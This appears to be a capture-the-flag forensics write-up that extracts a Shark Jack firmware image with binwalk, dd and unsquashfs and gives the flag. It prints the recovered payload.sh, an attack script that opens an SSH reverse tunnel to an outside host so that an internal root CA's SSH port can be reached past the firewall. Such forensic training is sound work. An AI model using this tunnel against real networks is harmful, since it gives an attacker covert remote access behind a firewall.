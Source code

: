 # Controlled Access

## Forensics: Points 50

## Solve
We've been asked to help a certificate authority figure out what a [device](https://shop.hak5.org/products/shark-jack) they found plugged into their network was doing. They were able to dump the [firmware.bin](./firmware.bin) and would like to know if it allowed the attacker to connect to any devices that their firewall (which blocks inbound SSH) would have stopped. Their internal domain uses 'digisigner.local' for DNS host names. The flag is the hostname of the *internal* host that the hacker targeted (i.e. ACI{[local hostname targeted]}).

## Hints
* A tool like [binwalk](https://github.com/ReFirmLabs/binwalk) might be useful for inspecting the firmware.
* The [documentation](https://docs.hak5.org/hc/en-us/categories/360002117973-Shark-Jack) mentions that the 'attack' payload for this device lives in a very particular spot on the filesystem...

## Solution
Install binwalk.
```
$ sudo python3 setup.py install
```
Run binwalk on the firmware file.
```
$ binwalk firmware.bin
```

Binwalk lists a few symbols contained in the firmware:
```
DECIMAL       HEXADECIMAL     DESCRIPTION
------------------------------------------------------------------
0             0x0             uImage header, header size: 64 [...]
64            0x40            LZMA compressed data, properties: [...]
1467904       0x166600        Squashfs filesystem, little endian [...]
```

One of the symbols is **Squashfs filesystem**, which starts at offset 1467904. This is important for the next step.

The squashfs filesystem needs to be isolated so that it can be investigated further. `dd` is a command-line utility for Unix operating systems whose primary purpose is to convert and copy files. `dd` can be used to copy the squashfs section to a separate file.

```
$ dd if=firmware.bin skip=1467904 bs=1 of=sharkjack.sqfs
```

In the command above, `if` stands for input file, `skip` is the number of bytes to skip (skip to the start of the squashfs filesystem), `bs` stands for byte size, and `of` stands for output file.

Next, unsquash the file system so that it is readable.

```
$ sudo unsquashfs sharkjack.sqfs
```

From here, the file system is extracted to a folder called **squashfs-root**.

The [Shark Jack Directory Structure page][1] shows that the payload exists in **/root/payload/**:

```
Directory Structure
/root/loot/ – home to log files and other loot stored by payloads
/root/payload/ – home to the payload which will execute when the switch is flipped to the Attack mode
/tmp/ – volatile memory for temporary storage during payload execution
```

Open the **payload** directory:

```
$ cd squashfs-root/root/payload/
$ ls
payload.sh
```

Open the **payload.<span>sh** file:

```
$ cat payload.sh 
#!/bin/bash
#
# Title:         Secure Shark Jacker
# Author:        Mr. Robot
# Version:       13.37
#
INTERNAL_HOST=rootca.digisigner.local
INTERNAL_PORT=22

function run() {
    ssh -R localhost:31337:$INTERNAL_HOST:$INTERNAL_PORT garyhost@10.57.1.7
}

# Run payload
run &
```

The challenge states:
> The flag is the hostname of the *internal* host that the hacker targeted (i.e. ACI{[local hostname targeted]}).

Examine the `INTERNAL_HOST` required for the flag:

```
INTERNAL_HOST=rootca.digisigner.local
```
Plug this into the flag format and submit
```
ACI{rootca.digisigner.local}
```

## Resources
* [Poking around router firmware using Binwalk](https://www.youtube.com/watch?v=46tEIFAp7gc)
* [SharkJack Directory Structure][1]

[1]:https://docs.hak5.org/hc/en-us/articles/360034130934-Directory-Structure